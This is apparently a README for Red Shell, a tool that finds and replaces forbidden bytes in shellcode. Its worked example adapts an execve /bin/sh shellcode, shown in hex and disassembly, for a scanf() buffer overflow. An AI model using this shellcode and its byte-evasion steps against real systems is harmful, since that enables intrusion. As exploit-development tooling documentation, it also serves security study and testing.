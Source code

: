 # Red Shell

## Overview

Red Shell is a tool that augments the capabilities of [ShellNoob](https://github.com/reyammer/shellnoob).
Frequently, buffers have restrictions on which bytes are allowed.
Red Shell helps you both detect and fix prohibited bytes in your shellcode.

You could say that ShellNoob produces the green shell, and Red Shell helps home the shellcode-based attack
and navigate around any restrictions for the input buffer, turning that green shell into a red shell.

## Setup

To run Red Shell, you just need to ensure that ShellNoob is in your Python path, as Red Shell will import that tool.

## Usage

```
> ./redshell.py --help
usage: redshell.py [-h]
                   (--from-asm PATH | --from-obj PATH | --from-bin PATH | --from-hex PATH | --from-c PATH | --from-shellstorm ID | --from-asm-text ASM)
                   [--blacklist LIST | --whitelist LIST] [--64] [--intel]

Helps home shellcode-based attacks using shellnoob.

optional arguments:
  -h, --help            show this help message and exit
  --from-asm PATH       ShellNoob's asm format
  --from-obj PATH       ShellNoob's obj format
  --from-bin PATH       ShellNoob's bin format
  --from-hex PATH       ShellNoob's hex format
  --from-c PATH         ShellNoob's c format
  --from-shellstorm ID  ShellNoob's shellstorm format
  --from-asm-text ASM   assembly code as text
  --blacklist LIST      list of blacklisted bytes or byte ranges
  --whitelist LIST      list of whitelisted bytes or byte ranges
  --64                  64-bit architecture (default: 32-bit)
  --intel               Intel assembly syntax (default: AT&T)

Example: redshell.py --from-shellstorm 827 --blacklist 00,09-0d,20
```

## Example

Let's assume that we found a buffer overflow vulnerability in an x86 application with a `scanf()` call:

```c
scanf("name: %s", buffer)  // Buffer can overflow!
```

To develop an exploit for this buffer overflow, you could download some
[shellcode from shell-storm](http://shell-storm.org/shellcode/files/shellcode-827.php),
but this shellcode won't work out of the box.

### Detecting Prohibited Bytes

Let's use Red Shell to analyze this shellcode. For our blacklist of prohibited bytes,
we will use the delimiters for a string argument in `scanf()`.

```
> ./redshell.py --from-shellstorm 827 --blacklist=00,09-0d,20 --intel
--------
Hex Dump
--------
00000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e350  1.Ph//shh/bin..P
00000010: 5389 e1b0 0bcd 80                        S......

--------
Assembly
--------
xor eax,eax                      # 31c0
push eax                         # 50
push 0x68732f2f                  # 682f2f7368
push 0x6e69622f                  # 682f62696e
mov ebx,esp                      # 89e3
push eax                         # 50
push ebx                         # 53
mov ecx,esp                      # 89e1
mov al,0xb                       # b00b
    0b [index 0x14]
int 0x80                         # cd80

prohibited bytes found
```

It looks like the `mov al, 0xb` instruction contains a prohibited byte: `0b`. `scanf()` will treat this byte as a delimiter.

### Fixing Prohibited Bytes

Next, let's try to find a way to replace this instruction. Red Shell has one additional format that can let us directly test assembly instructions.

```
> ./redshell.py --from-asm-text 'mov al,0x3b; sub al,0x30' --blacklist=00,09-0d,20 --intel
--------
Hex Dump
--------
00000000: b03b 2c30                                .;,0

--------
Assembly
--------
mov al,0x3b                      # b03b
sub al,0x30                      # 2c30

no prohibited bytes found
```

Now we can patch our shellcode with these new instructions, and we have shellcode that works for this buffer.

## Notes

*   Input Formats
    *   Red Shell supports any input format that ShellNoob supports.
    *   Red Shell also supports ShellNoob's `--64` and `--intel` options.
*   Prohibited Bytes
    *   Red Shell can use either a custom `--blacklist` or a custom `--whitelist`.
    *   By default, Red Shell will check for nulls \[`00`\] and newlines \[`0a`\].
